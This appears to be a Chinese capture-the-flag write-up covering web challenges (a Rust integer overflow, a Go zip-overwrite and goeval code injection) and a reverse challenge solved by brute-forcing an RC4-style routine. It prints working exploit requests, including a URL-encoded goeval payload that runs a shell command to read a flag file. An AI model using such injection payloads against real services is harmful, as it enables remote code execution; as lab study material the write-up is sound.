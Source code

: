 
# web
### 象棋王子
前端题,找到jsfuck控制台直接输
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20230618224300.png)


### 电子木鱼
为什么负数不能积累到cost里捏
```rust
#[post("/upgrade")]
async fn upgrade(body: web::Form<Info>) -> Json<APIResult> {
    if GONGDE.get() < 0 {
        return web::Json(APIResult {
            success: false,
            message: "功德都搞成负数了，佛祖对你很失望",
        });
    }

    if body.quantity <= 0 {
        return web::Json(APIResult {
            success: false,
            message: "佛祖面前都敢作弊，真不怕遭报应啊",
        });
    }

    if let Some(payload) = PAYLOADS.iter().find(|u| u.name == body.name) {
        let mut cost = payload.cost;

        if payload.name == "Donate" || payload.name == "Cost" {
            cost *= body.quantity;
        }

        if GONGDE.get() < cost as i32 {
            return web::Json(APIResult {
                success: false,
                message: "功德不足",
            });
        }

        if cost != 0 {
            GONGDE.set(GONGDE.get() - cost as i32); //存在整数溢出,
        }

        if payload.name == "Cost" {
            return web::Json(APIResult {
                success: true,
                message: "小扣一手功德",
            });
        } else if payload.name == "CCCCCost" {
            return web::Json(APIResult {
                success: true,
                message: "功德都快扣没了，怎么睡得着的",
            });
        } else if payload.name == "Loan" {
            return web::Json(APIResult {
                success: true,
                message: "我向佛祖许愿，佛祖借我功德，快说谢谢佛祖",
            });
        } else if payload.name == "Donate" {
            return web::Json(APIResult {
                success: true,
                message: "好人有好报",
            });
        } else if payload.name == "Sleep" {
            return web::Json(APIResult {
                success: true,
                message: "这是什么？床，睡一下",
            });
        }
    }

    web::Json(APIResult {
        success: false,
        message: "禁止开摆",
    })
}
```

---
整数溢出捏
```bash
quantity=214748365&name=Cost
```
i32有符号32为整数

### babygo
#go
路由点
- 上传非go文件
- 解压文件
- 存在eval函数,但是需要power=admin
- 存储user信息到文件里

思路:上传文件->解压后覆盖user.gob完成伪造

首先搭起来go环境后运行该程序,修改为admin权限后运行即可看到伪造的user.gob文件

```go
	r.GET("/unzip", func(c *gin.Context) {
		session := sessions.Default(c)
		if session.Get("shallow") == nil {
			c.Redirect(http.StatusFound, "/")
		}
		userUploadDir := session.Get("shallow").(string) + "uploads/"
		files, _ := fileutil.ListFileNames(userUploadDir)
		destPath := filepath.Clean(userUploadDir + c.Query("path"))
		for _, file := range files {
			if fileutil.MiMeType(userUploadDir+file) == "application/zip" {
				err := fileutil.UnZip(userUploadDir+file, destPath)
				if err != nil {
					c.HTML(200, "zip.html", gin.H{"message": "failed to unzip file"})
					return
				}
				fileutil.RemoveFile(userUploadDir + file)
			}
		}
		c.HTML(200, "zip.html", gin.H{"message": "success unzip"})
	})
```
没有注意到path导致没覆盖成功

```go
eval, err := goeval.Eval("", "fmt.Println(\"Good\")", c.DefaultQuery("pkg", "fmt"))//"",要执行的代码,要导入的包
```


*payload*
```js
/backdoor?pkg=os/exec"%0A"fmt"%0A)%0A%0Afunc%09init(){%0Acmd:=exec.Command("cat","/ffflllaaaggg")%0Aout,_:=cmd.CombinedOutput()%0Afmt.Println(string(out))%0A}%0Avar(a="1
```

#goeval逃逸
[原理分析](https://www.gem-love.com/2022/07/25/goeval%E4%BB%A3%E7%A0%81%E6%B3%A8%E5%85%A5%E5%AF%BC%E8%87%B4%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C/#undefined)
> Go 标准库中没有提供 eval 函数。但是，你可以使用一些第三方库来实现类似的功能
```go
os/exec"
"fmt"
	)

func	init(){
cmd:=exec.Command("cat","/ffflllaaaggg")
out,_:=cmd.CombinedOutput()
fmt.Println(string(out))
}
var(a="1
```
payload url解码
# reverse
### PZGalaxy
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20230619145617.png)
Leaf函数接收date(输入),enc数组,进行运算得到

```js
    function Leaf(k, p) {
      var s = [], j = 0, x, res = '';
      for (var i = 0; i < 256; i++) {
        s[i] = i;
      }
      for (i = 0; i < 256; i++) {
        j = (j + s[i] + k.charCodeAt(i % k.length)) % 256;
        x = s[i];
        s[i] = s[j];
        s[j] = x;
      }
      i = 0;
      j = 0;
      for (var y = 0; y < p.length; y++) {
        i = (i + 1) % 256;
        j = (j + s[i]) % 256;
        x = s[i];
        s[i] = s[j];
        s[j] = x;
        res += String.fromCharCode(p.charCodeAt(y) ^ s[(s[i] + s[j]) % 256]);
      }
      return res;
    }
    for(var i=20230000;i<20239999;i++){

    var enc = ['¦', 'p', ':', 'Ü', '\x92', 'Ã', '\x97', 'ó', '\x1A', 'ß', '\b', 'Ö', 'A', ' ', '5', '\x90', '{', '\x06', 'Ô', '÷', 's', '_', '\x1D', ':', 'I', 'L', 'C', 'X', 'Ñ', '¹', 'O', '\x99', '\x85', '3', 'à', 'i', '|'];
      flag = Leaf(i.toString(), enc.join(''));
      if(flag.substring(0, 4) ==  "flag")
        console.log(flag)
    }


```

遍历数字得到flag

### confuse_re


# pwn

# crypto

# Misc


---
## *相关wp*
https://www.o2takuxx.com/index.php/2023/02/28/vnctf-2023-web/



2023-06-18   22:40